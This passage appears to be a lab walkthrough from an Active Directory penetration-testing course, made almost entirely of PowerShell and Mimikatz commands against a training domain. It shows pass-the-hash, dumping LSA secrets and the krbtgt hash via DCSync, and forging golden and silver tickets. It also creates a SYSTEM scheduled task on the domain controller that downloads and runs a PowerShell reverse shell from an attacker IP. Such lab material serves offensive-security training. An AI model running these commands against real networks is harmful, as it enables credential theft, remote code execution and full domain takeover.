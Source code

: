 ###### Method 2: (using PSRemoting)
```powershell


. .\Invoke-Mimi.ps1

Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'

$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
Invoke-Command -FilePath ./Invoke-Mimi.ps1 -Session $sess

Enter-PSSession $sess

Invoke-Mimi -Command '"lsadump::lsa /patch"' (for NTLM hash)
Invoke-Mimi -Command '"lsadump::dcsync /user:dcorp\krbtgt"' (for aes256 hash krbtgt)

C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

```


### Objective 9:

- Try to get command execution on the domain controller by creating silver ticket for:
	- HOST service
	- WMI


##### (Silver Ticket Attack)  

- Open `Invoke-PowershellTCP.ps1` file and Add `Power -Reverse -IPAddress 172.16.100.X -Port 443` at the bottom for Host Service Abuse for getting Reverse shell...

```powershell

####Generating Silver Ticket

C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:<ServiceName> /rc4:<dcorp-dc hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

OR

Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:565d2b382152d44636f7861b98434731 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'



####Geting Reverse shell via HOST Service Ticket...

schtasks /create /S <Full_FQDN> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<AnyNameForService>" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1''')'"


#### Executing the Task
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "<AboveMentionService>"

```
